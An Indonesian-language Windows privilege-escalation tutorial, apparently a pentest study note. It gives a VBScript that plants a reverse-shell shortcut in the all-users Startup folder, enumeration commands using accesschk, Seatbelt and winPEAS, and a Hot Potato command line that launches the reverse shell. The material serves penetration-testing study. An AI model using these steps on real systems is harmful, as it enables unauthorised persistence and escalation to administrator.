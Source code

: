 Windows secara default memiliki direktori untuk aplikasi yang akan dijalankan ketika startup, yaitu di `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Jika kita memiliki hak akses WRITABLE pada direktori ini kita bisa menyimpan reverse shell pada direktor tersebut yang akan dijalankan setiap kali startup. 

#### Recon
Kita cek apakah direktori Startup memiliki hak akses writable
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
Jika ada result `RW BUILTIN\Users` atau `RW Desktop\MyUser` artinya direktori tersebut writable. Jika ingin menempatkan aplikasi di direktori ini, maka harus berupa shortcut, gak bisa langsung `aplikasi.exe` cara untuk membuat shortcut ini bisa dengan vbscript

Buat file dengan nama `CreateShortcut.vbs`, lalu paste kode berikut :
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

Yang perlu diperhatikan adalah `oLink.TargetPath`, yaitu path aplikasi yang kita miliki . Lalu jalankan script. 

```
cscript CreateShortcut.vbs
```

Tinggal menunggu restart dari administrator, maka secara otomatis file shortcut yang kita buat akan berjalan. 

## Installed Applications
Kita bisa exploit aplikasi yang terinstall di windows. Untuk mencari exploit priv esc bisa lihatdi exploit-db atau web lainnya. As soon as kita dapatkan exploitnya, maka kita bisa jalankan di windows. 

#### Recon
Melihat task yg sedang berjalan
```
tasklist /V
```
Terkadang ada aplikasi non-standard yang biasanya aplikasi ini memiliki celah keamanan. Untuk cek aplikasi non-standard,kita bisa gunakan tool seatbelt.exe
```
.\seatbelt.exe NonstandardProcesses
```
Kita juga bisa pakai winpeas
```
winPEASany.exe quiet processinfo
```

## Hot Potato
```
.\potato.exe -ip <ip_local_windows> cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```
